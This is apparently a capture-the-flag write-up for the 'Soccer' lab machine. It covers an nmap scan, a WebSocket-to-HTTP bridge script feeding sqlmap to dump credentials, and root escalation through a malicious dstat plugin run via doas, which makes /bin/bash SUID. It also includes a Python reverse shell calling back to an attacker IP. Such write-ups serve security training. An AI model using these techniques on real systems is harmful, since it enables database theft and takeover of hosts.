




Soccer#
Enum#
# Nmap 7.93 scan initiated Tue Dec 20 22:21:49 2022 as: nmap -sC -sV -oN scans/nmap.initial 10.129.119.124
Nmap scan report for soccer.htb (10.129.119.124)
Host is up (0.32s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
| 256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_ 256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Soccer - Index
9091/tcp open xmltec-xmlmail?
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix:
| HTTP/1.1 400 Bad Request
| Connection: close
| GetRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 139
| Date: Tue, 20 Dec 2022 22:22:39 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot GET /</pre>
| </body>
| </html>
| HTTPOptions:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 143
| Date: Tue, 20 Dec 2022 22:22:39 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot OPTIONS /</pre>
| </body>
| </html>
| RTSPRequest:
| HTTP/1.1 404 Not Found
| Content-Security-Policy: default-src 'none'
| X-Content-Type-Options: nosniff
| Content-Type: text/html; charset=utf-8
| Content-Length: 143
| Date: Tue, 20 Dec 2022 22:22:40 GMT
| Connection: close
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8">
| <title>Error</title>
| </head>
| <body>
| <pre>Cannot OPTIONS /</pre>
| </body>
|_ </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.93%I=7%D=12/20%Time=63A235A8%P=aarch64-unknown-linux-g
SF:nu%r(informix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnec
SF:tion:\x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20F
SF:ound\r\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-
SF:Type-Options:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-
SF:8\r\nContent-Length:\x20139\r\nDate:\x20Tue,\x2020\x20Dec\x202022\x2022
SF::22:39\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</tit
SF:le>\n</head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n
SF:")%r(HTTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Secur
SF:ity-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosn
SF:iff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\
SF:x20143\r\nDate:\x20Tue,\x2020\x20Dec\x202022\x2022:22:39\x20GMT\r\nConn
SF:ection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<hea
SF:d>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\
SF:n<pre>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,
SF:16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20de
SF:fault-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Ty
SF:pe:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x
SF:20Tue,\x2020\x20Dec\x202022\x2022:22:40\x20GMT\r\nConnection:\x20close\
SF:r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20char
SF:set=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20O
SF:PTIONS\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindRe
SF:qTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Connection:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 20 22:23:18 2022 -- 1 IP address (1 host up) scanned in 88.63 seconds
SQLi over WebSocket#
There’s a sign up page, we create an account and then sign in, this gives us a ticket and gets us to a page to verify if tickets are valid:

Looking at the http history in burp, this looks like the feature isn’t implemented over http but over websocket

So we switch to websocket in burp and find that we’re just sending a single key,value pair json dict, and after playing around in the repeater we find it to be vulnerable to SQLi


Found this resource online with the folling python server to redirect http traffic into websocket and back, with that we’ll be able to use automated tools such as sqlmap
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection
ws_server = "ws://localhost:8156/ws"
ws_server = "ws://soc-player.soccer.htb:9091"
def send_ws(payload):
ws = create_connection(ws_server)
# If the server returns a response on connect, use below line
#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
# For our case, format the payload in JSON
message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
data = '{"id":"%s"}' % message
ws.send(data)
resp = ws.recv()
ws.close()
if resp:
return resp
else:
return ''
def middleware_server(host_port,content_type="text/plain"):
class CustomHandler(SimpleHTTPRequestHandler):
def do_GET(self) -> None:
self.send_response(200)
try:
payload = urlparse(self.path).query.split('=',1)[1]
except IndexError:
payload = False
if payload:
content = send_ws(payload)
else:
content = 'No parameters specified!'
self.send_header("Content-type", content_type)
self.end_headers()
self.wfile.write(content.encode())
return
class _TCPServer(TCPServer):
allow_reuse_address = True
httpd = _TCPServer(host_port, CustomHandler)
httpd.serve_forever()
print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")
try:
middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
pass
sqlmap -u "http://localhost:8081/?id=" -p id --dbs --risk 3
sqlmap -u "http://localhost:8081/?id=" -p id --dbs --risk 3 --level 5 --batch
sqlmap -u "http://localhost:8081/?id=" -p id --dbs --risk 3 --level 5 --technique B --random-agent --batch
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
sqlmap -u "http://localhost:8081/?id=" -D soccer_db --tables
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
sqlmap -u "http://localhost:8081/?id=" -D soccer_db -T accounts --dump
Database: soccer_db
Table: accounts
[2 entries]
+---------+-------------------+----------------------+----------+
| id | email | password | username |
+---------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player |
| <blank> | <blank> | <blank> | <blank> |
+---------+-------------------+----------------------+----------+
Privesc with doas + dstat plugins#
We have doas as SUID
player@soccer:~$ cd /usr/local/bin/
player@soccer:/usr/local/bin$ ls -la
total 64
drwxr-xr-x 2 root root 4096 Nov 17 09:09 .
drwxr-xr-x 10 root root 4096 Nov 15 21:38 ..
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 doas
-rwxr-xr-x 1 root root 2002 Nov 17 09:09 doasedit
-rwxr-xr-x 1 root root 5471 Nov 17 09:09 vidoas
This is the config file for doas, that’s the equivalent fo sudo -l
cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
There’s dstat on the box, and because of the doas config we can execute it as root
This means it can be used for privec as mentionned here
player@soccer:/usr/local/share/dstat$ cp /dev/shm/dstat_newt.py .
player@soccer:/usr/local/share/dstat$ cat dstat_newt.py
import os
os.system('chmod +s /bin/bash')
Tried this too, and I get a callback but it dies straight away
import sys,socket,os,pty
RHOST="10.10.14.122"
RPORT=4242
s=socket.socket()
s.connect((RHOST, RPORT))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("bash")
Anyway the bash suid works when called like that with doas
doas -u root /usr/bin/dstat --newt
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
import imp
Module dstat_newt failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
player@soccer:/usr/local/share/dstat$ ls -lart /bin/bash
srwxr-sr-x 1 root root 1183448 Apr 18 2022 /bin/bash